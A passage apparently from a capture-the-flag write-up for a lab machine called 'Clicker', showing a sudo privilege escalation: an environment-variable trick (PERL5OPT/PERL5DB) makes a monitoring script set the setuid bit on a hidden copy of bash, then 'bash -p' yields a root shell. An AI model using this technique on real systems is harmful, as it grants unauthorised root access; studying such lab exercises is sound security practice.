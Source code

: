 ```
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /tmp/.hidden/bash"' /opt/monitor.sh
```
![Exploit](/assets/img/Clicker/Clicker_11.png)


Then after we could get a root shell by running `

```
bash -p
```
![Root shell obtained](/assets/img/Clicker/Clicker_12.png)

